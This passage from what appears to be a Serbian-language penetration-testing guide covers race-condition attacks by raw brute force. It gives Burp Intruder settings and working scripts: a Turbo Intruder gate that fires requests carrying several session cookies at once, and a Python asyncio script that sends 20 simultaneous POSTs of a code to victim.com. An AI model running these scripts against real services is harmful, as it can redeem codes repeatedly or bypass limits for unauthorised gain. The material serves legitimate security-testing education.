 ```python
resp = h2_conn.read_response_from_socket(_timeout=3)
frame_parser = h2_frames.FrameParser(h2_connection=h2_conn)
frame_parser.add_frames(resp)
frame_parser.show_response_of_sent_requests()

print('---')

sleep(3)
h2_conn.close_connection()

response = requests.get(url, verify=False)
```

### Sirovi BF

Prethodno istraživanje je koristilo sledeće niske koje su pokušavale da pošalju pakete što je brže moguće kako bi izazvale RC.

* **Ponavljač:** Pogledajte primere iz prethodnog odeljka.
* **Upadač:** Pošaljite **zahtev** Upadaču, postavite **broj niti** na **30** unutar **Opcija menija** i izaberite niske **Nul niske** kao niske za napad i generišite **30.**
* **Turbo Upadač**

```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
pipeline=False
)
a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
for i in range(len(a)):
engine.queue(target.req,a[i], gate='race1')
# open TCP connections and send partial requests
engine.start(timeout=10)
engine.openGate('race1')
engine.complete(timeout=60)

def handleResponse(req, interesting):
table.add(req)
```

* **Python - asyncio**

```python
import asyncio
import httpx

async def use_code(client):
resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
return resp.text

async def main():
async with httpx.AsyncClient() as client:
tasks = []
for _ in range(20): #20 times
tasks.append(asyncio.ensure_future(use_code(client)))

# Get responses
results = await asyncio.gather(*tasks, return_exceptions=True)

# Print results
for r in results:
print(r)

```